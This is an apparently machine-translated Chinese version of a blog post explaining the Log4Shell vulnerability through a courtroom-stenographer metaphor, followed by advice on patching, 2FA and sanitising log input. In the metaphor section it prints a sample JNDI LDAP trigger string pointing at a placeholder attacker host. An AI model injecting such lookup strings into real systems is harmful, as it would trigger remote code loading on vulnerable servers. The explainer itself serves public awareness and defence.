






# Log4Shell，用隐喻和模因来解释！

> 原文：<https://blog.devgenius.io/log4shell-as-explained-by-metaphor-and-memes-38de224a2eb7?source=collection_archive---------0----------------------->

多么迷人的假日季节——由于两次 AWS 区域宕机，我认为深入探讨可用性区域恢复能力以及实现这一目标所涉及的权衡和实用性将会非常棒。肯定没有比这更好的系统集成话题了吧？

## 那么 Log4J 是什么，有什么大不了的？

**Log4J** 是 Java 生态系统中的软件用来创建*日志*的超级通用工具包。想想让·卢克·皮卡德在《星际迷航:下一代》每集开始时的“船长日志”条目，除了在电脑里，每毫秒有成千上万集，我们勤奋地记录每件事，直到最后一口伯爵茶。日志很棒，通常很受欢迎，而且历史上并不是系统危害的主要来源之一。他们甚至是一个伟大的方式来监控您的系统*对*妥协！

然后 **Log4Shell** 发生了。这是该漏洞的友好名称，正式命名为 CVE-2021–44228，许多人只是说“Log4J”来指代该问题。Log4Shell 是一个**R**emote**C**ode**E**execution(“RCE”)漏洞，也就是 OpSec 的说法，大致意思是“任何能够与有此漏洞的计算机进行交互的人，即使是间接的，都可以命令该计算机做他们想让它做的任何事情。”在漏洞的范围内，称之为*超级糟糕是公平的。*

请允许我做一个比喻，它的不准确性肯定会让工程师和法律专业人士感到不安。

## 假设 Log4J 是法庭速记员

我们的电脑是法庭。速记员在整个诉讼过程中都在房间里，他的具体工作是把法庭上发生的一切都记录下来。

法庭有各种不同的访问级别——一些被严密保护，而另一些公众可以参观。速记员被视为有特权访问的受信任的支持人员。

了解 Log4Shell 相当于突然发现所有速记员中有三分之一的人是满洲候选人。他们是不知情的潜伏特工，当被正确的关键词触发时，他们会尽最大能力执行任何命令。如果他们在笔录中写下一个特殊的短语，就会触发——所以有人必须在法庭上说这个短语，然后砰，注意到并妥协了。

这个短语看起来像这样:

> $ { JNDI:LDAP://evil-corp . evil/activate-manchurian-candidate-and-follow-these-instructions }

在我们的比喻中，这与“幽灵青蛙算盘”一类的短语没有太大的不同——说起来很奇怪，但你可以煞有介事地欺骗某人把它写下来。

利用这一点是如此简单，以至于本周有将近一半的企业报告被探测到 Log4Shell 漏洞。

Via [维基百科](https://en.wikipedia.org/wiki/Log4Shell):

> 截至 2021 年 12 月 14 日，全球几乎一半的公司网络都受到了主动探测，24 小时内产生了 60 多种利用漏洞的变种

和

> Check Point Software Technologies 在一份详细的分析中[描述]潜在的损害是“不可估量的”

这就像糟糕的演员出现在世界各地的法庭上，大声喊出关键词，看看他们是否会让速记员妥协。对于那些受到威胁的人，我们不一定知道他们接下来会做什么。

所以我们在这里——有组织的个人或随机的演员可以在法庭上大声说出事情，如果命令被转录，那么他们已经妥协了速记员。更老练的人可能会安排一名庭审证人，他会以一种微妙的方式说出激活码，而不是在房间后面大喊大叫。

在影响最小的*事情中，被泄密的速记员可能会做的仅仅是**破坏这个地方。他们停止了他们的工作，开始乱扔椅子，程序被中断，直到问题得到解决。*(这就像用 RCE 撞机一样。)****

*但是对速记员更迂回的指示可能是这样的:*

1.  *自我编辑他们自己的抄本，所以他们的妥协点隐藏在记录中*
2.  *利用对他们的信任，尝试做一些他们不应该做但可能逃脱惩罚的奇怪事情，例如篡改证据，试图通过在记录中注入错误信息来影响诉讼程序，或者只是分享他们笔录中的所有私人内容(有人说过密码吗？或者信用卡号码？嗯嗯……)*
3.  *知道他们最终会被抓住，打开整个法院的一堆锁着的门，以便其他坏演员可以稍后进入*
4.  *一般促成[欺诈供应链](https://bam.kalzumeus.com/archive/the-fraud-supply-chain/)*

*嗯，好吧，可怕…但至少损失是有限的，因为妥协的程度仅限于速记员，对不对？这并不是说法庭上的其他人也受到了影响，他们只是容易被速记员愚弄或欺骗。*

*哦，等等，但结果不仅仅是速记员。做笔记的都是 ***。*** 法官做笔记。所有人。在所有权力的位置上。他们都记笔记。所以他们都是易受攻击的潜伏特工。更糟糕的是，一些法庭喜欢“快速行动，打破常规”,让超级法官以超人的能力履行法庭的所有职能——法官、陪审团、起诉人、辩护律师……刽子手……他们也是速记员。所以如果你进入其中一个法庭，你就可以轻松地掌控整个法庭。*

**

*比喻变瘦？嗯，是的，但这在软件世界很常见。*

*如果你从事工程或者曾经参加过安全培训，你可能听说过最小特权原则*。这种确保系统的每个组件都有足够的权限在自己的领域内操作的做法(也就是说，速记员也没有法官的权力)将极大地减轻已经受损的系统可能造成的损害。这种时候，好的实践才会真正有回报。**

**但是，每个人*每个人*都做笔记，即使是最有权力的人，尽管速记员是法庭上最容易骗写你的关键短语的人，但他们都很容易受到影响。**

**所以一切都做得非常正确的团队和公司……仍然容易受到 Log4Shell 的攻击。**

> **德国的[信息安全办公室]将这次攻击定为该机构的最高威胁级别，称其为“极其严重的威胁情况”。它还报告说，一些攻击已经成功，而利用程度仍然难以评估。**

****Ok cool so Log4Shell 不好，你的比喻现在完成了。我猜电脑人会整理出来；我在这里很好，是吗？****

**嗯…**

****

**首先，**如果你存在于**星球上，你需要意识到这会影响到你。**

****

**你在家使用互联网吗？然后你家里有一个**路由器**，那个路由器**有很好的机会运行 Java** 和**肯定会生成日志**和**通常有一个外部可用的管理门户**。所以检查它是否有软件更新，如果有，就安装它。当你在那里的时候，也可以关闭外部管理门户。**

**作为软件的**消费者，你能做的最好的事情就是重申两个基本原则:****

1.  **应用软件升级。检查你的东西，升级它。本周，全世界的软件团队都在努力解决这个问题，而且速度很快……当你必须自己更新软件时，除非你应用这些更新，否则你无法从他们的工作中获益。**
2.  **处处用 2FA。本周你的密码被泄露的几率大幅上升；我敢打赌 haveibeenpwned.com 会在未来几个月宣布一系列安全漏洞，其中许多会追溯到本周。如果你的密码是唯一保护你的电子邮件账户、银行账户或万智牌数字收藏的东西，你的妥协是不可避免的。用 2FA。**

**你为你的孩子运行《我的世界》服务器吗？(…或者，为了自己？)《我的世界》:Java 版被 Log4Shell 攻陷。**

****

**对于我们这些自称是**电脑人**(哔，哔)，…我们对此事有很多想法。这里有三个简单的例子:**

1.  **只要我们发现 Log4J 被我们自己的代码使用*，我们就必须升级或删除它。***
2.  **我们都得到了一个明确的提醒:在记录信息时，我们必须始终净化我们的日志输入。值得将这视为类似于 SQL 注入或 XSS 的严重程度，但作为一种安全实践，它远没有得到重视。**
3.  **全世界的系统管理员团队都有一个崇高的任务负责人**

****

**这让我想到了今天早上最后也是最紧迫的一点:**

**给你的同事一些爱。**

**就像，没有比这周更好的一周去同情和善待你的下属、开发人员和安全人员了。**

**你是和 OpSec 的成员出去喝咖啡或鸡尾酒吗？买单。有很多人为此失眠，更多的人因为快速反应损失了几个工作日。**

****

**特别感谢[https://log4jmemes.com/](https://log4jmemes.com/)精彩的插图，以及[https://en.wikipedia.org/wiki/Log4Shell](https://en.wikipedia.org/wiki/Log4Shell)的引用。**

**给我的程序员和网络工程师朋友一个注脚…*是的，我知道我过度简化了很多东西，尤其是网络部分，但我真的不想进入网络或网络安全或 web 服务器的本质或物联网或诸如此类的东西。我严重模糊了“计算机”和“在计算机上运行的软件”之间的界限……难以用语言表达；我欢迎你的技术性反驳；-)与此同时…让我们都去升级我们烤面包机上运行的 Java 版本。***